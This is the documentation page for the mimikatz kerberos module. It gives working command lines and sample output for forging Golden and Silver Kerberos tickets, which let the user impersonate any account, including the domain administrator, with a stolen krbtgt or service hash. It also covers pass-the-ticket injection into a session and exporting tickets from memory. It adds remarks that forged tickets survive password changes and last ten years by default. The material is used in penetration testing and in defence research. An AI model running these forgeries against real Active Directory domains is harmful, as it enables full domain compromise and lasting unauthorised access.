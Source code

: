 This module can be used without any privilege. It permits to play with official Microsoft Kerberos API - http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx - and to create offline 'Golden tickets', _free, long duration_ `TGT` tickets for any users :smile:

Lots of informations : [fr] http://1drv.ms/1fuEU28

> Commands: [ptt](#ptt), [golden / silver](#golden--silver), [list](#list), [tgt](#tgt), [purge](#purge)

## ptt
> Pass-The-Ticket

Injects one, or multiple, Kerberos ticket(s) in the current session (`TGT` or `TGS`).

**Arguments:**
* `filename` - the ticket's filename (can be multiple)
* `diretory` - a directory path, all `.kirbi` files inside will be injected.
```
mimikatz # kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi
Ticket 'Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi' successfully submitted for current session
```
**Remark:** if used with tickets external to `mimikatz`, tickets must be in Kerberos credential format (`KRB_CRED`) - http://tools.ietf.org/html/rfc4120#section-5.8

**See also:**
* Pass-The-Hash: [`sekurlsa::pth`](module-~-sekurlsa#pth)
* [fr] http://blog.gentilkiwi.com/securite/mimikatz/pass-the-ticket-kerberos
* [pl] http://zine.net.pl/blogs/mgrzeg/archive/2014/01/20/kerberos-a-lsass.aspx
* [en] http://rycon.hu/papers/goldenticket.html

## golden / silver
> Willy Wonka's choice

This command create Kerberos ticket, a `TGT` or a `TGS` with arbitrary data, for any user you want, in groups you want... (eg: the domain administrator :triumph:).

**Arguments:**

***Common:***  
* `/domain` - the fully qualified domain name (eg: `chocolate.local`).
* `/sid` - the SID of the **domain** (eg: `S-1-5-21-130452501-2365100805-3685010670`).
* `/user` - the username you want to impersonate, keep in mind that Administrator is not the only name for 
this well-known account.
* `/id` - _optional_ - the id of the user - default is: `500` for the well-known Administrator.
* `/groups` - _optional_ - id of groups the user belongs (first is primary group, comma separator) - default is: `513,512,520,518,519` for the well-known Administrator's groups.

***Key:***  
Keys depend of ticket :
* for a **Golden**, they are from the `krbtgt` account;
* for a **Silver**, it comes from the "computer account" or "service account".

All of that, from `NTDS.DIT`, [`lsadump::dcsync`](module-~-lsadump#dcsync), [`lsadump::lsa /inject`](module-~-lsadump#lsa) or [`lsadump::lsa /patch`](module-~-lsadump#lsa)).
You must choose one :
* `/rc4` or `/krbtgt` - the `NTLM` hash
* `/aes128` - the AES128 key
* `/aes256` - the AES256 key

***Target & Service for a Silver Ticket:***
* `/target` - the server/computer name where the service is hosted (ex: `share.server.local`, `sql.server.local:1433`, ...)
* `/service` - The service name for the ticket (ex: `cifs`, `rpcss`, `http`, `mssql`, ...)

***Target Ticket:***  
* `/ticket` - _optional_ - filename for output the ticket - default is: `ticket.kirbi`.
* `/ptt` - no output in file, just inject the golden ticket in current session.

***Lifetime:***  
By default, the Golden Ticket default lifetime is 10 years, but since BlackHat & Defcon 2014 it can be configured. All offsets are **in minutes**
* `/startoffset` - _optional_ - the start offset, negative to go in past, positive to have one ticket in future
* `/endin` - _optional_ - how long the ticket is (from start)
* `/renewmax` - _optional_ - how long maximum, renewals included, the ticket is (from start)

```
mimikatz # kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
User      : utilisateur
Domain    : chocolate.local
SID       : S-1-5-21-130452501-2365100805-3685010670
User Id   : 1107
Groups Id : *513
krbtgt    : 310b643c5316c8c3c70a10cfb17e2e31 - rc4_hmac_nt
Lifetime  : 15/08/2014 01:57:29 ; 12/08/2024 01:57:29 ; 12/08/2024 01:57:29
-> Ticket : utilisateur.chocolate.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

```
mimikatz # kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
User      : Administrateur
Domain    : chocolate.local
SID       : S-1-5-21-130452501-2365100805-3685010670
User Id   : 500
Groups Id : *513 512 520 518 519
krbtgt    : 15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 - aes256_hmac
Lifetime  : 15/08/2014 01:46:43 ; 15/08/2014 11:46:43 ; 22/08/2014 01:46:43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrateur @ chocolate.local' successfully submitted for current session
```

**Remarks:**
* password changing/smartcard usage does not invalidate Golden Ticket;
* this ticket is not emitted by the real KDC, it's not related to ciphering methods allowed;
* `NTLM` hash of `krbtgt` account is never changed automatically.

**See also:**
* Pass-The-Hash: [`sekurlsa::pth`](module-~-sekurlsa#pth)
* [en] http://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it
* [fr] http://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos
* [pl] http://zine.net.pl/blogs/mgrzeg/archive/2014/01/20/kerberos-a-lsass.aspx
* [en] http://rycon.hu/papers/goldenticket.html

## tgt
Displays informations about the `TGT` of the current session.
```
mimikatz # kerberos::tgt
Kerberos TGT of current session :
           Start/End/MaxRenew: 15/08/2014 01:46:43 ; 15/08/2014 11:46:43 ; 22/08/2014 01:46:43
           Service Name (02) : krbtgt ; chocolate.local ; @ chocolate.local
           Target Name  (--) : @ chocolate.local
           Client Name  (01) : Administrateur ; @ chocolate.local
           Flags 40e00000    : pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0000000000000000000000000000000000000000000000000000000000000000
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 0        [...]

        ** Session key is NULL! It means allowtgtsessionkey is not set to 1 **
```
**Remark:** If session key is filled with 00, then  `allowtgtsessionkey` is not enabled - http://support.microsoft.com/kb/308339 - the session key will not be exported for `TGT` with [`kerberos::list /export`](#list) unless you set it, it's not a problem with `TGS`.  
[`sekurlsa::tickets /export`](module-~-sekurlsa#tickets) works without this key because it reads raw memory.


## list
Lists and export Kerberos tickets (`TGT` and `TGS`) of the current session.

**Argument:**
* `/export` - _optional_ - export all tickets to files
```
mimikatz # kerberos::list /export

[00000000] - 12
   Start/End/MaxRenew: 24/04/2014 14:54:56 ; 25/04/2014 00:54:56 ; 01/05/2014 14:54:56
   Server Name       : krbtgt/CHOCOLATE.LOCAL @ CHOCOLATE.LOCAL
   Client Name       : Administrateur @ CHOCOLATE.LOCAL
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
   * Saved to file     : 0-40e10000-Administrateur@krbtgt~CHOCOLATE.LOCAL-CHOCOLATE.LOCAL.kirbi

[00000001] - 12
   Start/End/MaxRenew: 24/04/2014 15:13:03 ; 25/04/2014 00:54:56 ; 01/05/2014 14:54:56
   Server Name       : cifs/srvcharly.chocolate.local @ CHOCOLATE.LOCAL
   Client Name       : Administrateur @ CHOCOLATE.LOCAL
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 1-40a50000-Administrateur@cifs~srvcharly.chocolate.local-CHOCOLATE.LOCAL.kirbi
```
**See also:**
* [fr] http://blog.gentilkiwi.com/securite/mimikatz/pass-the-ticket-kerberos


## purge
Purges all tickets of the current session.
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
````